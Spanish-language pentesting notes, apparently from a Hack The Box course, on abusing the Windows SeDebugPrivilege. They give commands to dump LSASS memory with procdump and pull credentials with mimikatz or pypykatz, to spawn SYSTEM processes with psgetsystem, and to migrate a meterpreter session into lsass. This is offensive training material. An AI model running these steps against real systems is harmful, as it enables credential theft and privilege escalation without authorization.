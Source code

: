 ----



## SeDebugPrivilege

- Muchas veces cuando conseguimos un acceso a un usuario de un servicio, o sea una service account como puede ser sql server, al revisar los privilegios de ese usuario, vemos que tiene el privilegio SeDebugPrivilege.
- Podemos usar ProcDump de Sysinternals para conseguir un un dump de memoria LSASS.
- `procdump.exe -accepteula -ma lsass.exe lsass.dmp`
    - Ahora con esto podemos usar pypykatz en nuestra maquina atacante, o mimikatz en la maquina victima para obtener las credenciales de los servicios.

```
mimikatz # log
Using 'mimikatz.log' for logfile : OK

mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP : 'lsass.dmp'

mimikatz # sekurlsa::logonpasswords
Opening : 'lsass.dmp' file for minidump...
```

- `pypykatz lsa minidump 'lsass (1).dmp'`
- De todas formas siempre podemos dumpear a mano con el task manager.
- ![](https://academy.hackthebox.com/storage/modules/67/WPE_taskmgr_lsass.png)

### RCE con SeDebugPrivilege
- Se pueden elevar los privilegios ejecutando un proceso hijo con privilegios eleveados heredando los privilegios de un proceso padre.
- Podemos utilizar el [siguiente script](https://github.com/decoder-it/psgetsystem)
    - `[MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>,"")`

### Migrar proceso lsass a un proceso con SeDebugPrivilege
- Si tenemos el privilegio SeDebugPrivilege podemos migrar el proceso lsass.

```PowerShell
PS C:\Users\Public> Get-Process lsass
Get-Process lsass

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName                                                  
-------  ------    -----      -----     ------     --  -- -----------                                                  
   1299      32     7200      19236       5.56    672   0 lsass                                          

```

---

``` 
meterpreter > migrate 672
[*] Migrating from 6648 to 672...
[*] Migration completed successfully.

meterpreter > getsystem
[-] Already running as SYSTEM
```
